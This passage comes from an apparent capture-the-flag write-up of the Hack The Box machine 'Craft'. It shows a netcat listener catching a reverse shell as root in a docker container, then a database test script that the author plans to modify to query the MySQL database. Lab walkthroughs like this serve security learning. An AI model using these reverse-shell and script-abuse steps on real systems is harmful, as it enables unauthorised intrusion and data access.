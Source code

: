 When we run the script with our sexy little payload we catch a reverse shell, and gain our initial foothold.

```console
root@kali:/media/sf_Research# nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.186] from craft.htb [10.10.10.110] 35703
/bin/sh: can't access tty; job control turned off
/opt/app # whoami
root
/opt/app # cd /
/ # ls -la
total 64
drwxr-xr-x    1 root     root          4096 Feb 10  2019 .
drwxr-xr-x    1 root     root          4096 Feb 10  2019 ..
-rwxr-xr-x    1 root     root             0 Feb 10  2019 .dockerenv
...
...
...
/ #
```

## User Flag
It looks like we're in a docker container, so we need to escape that somehow. Under `/opt/app` we see a file named `dbtest.py`. Here are the contents of that file.

```python
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try:
    with connection.cursor() as cursor:
        sql = "SELECT `id`, `brewer`, `name`, `abv` FROM `brew` LIMIT 1"
        cursor.execute(sql)
        result = cursor.fetchone()
        print(result)

finally:
    connection.close()

```

If we modify `dbtest.py` to execute other commands we can explore the application's mysql database a bit more.
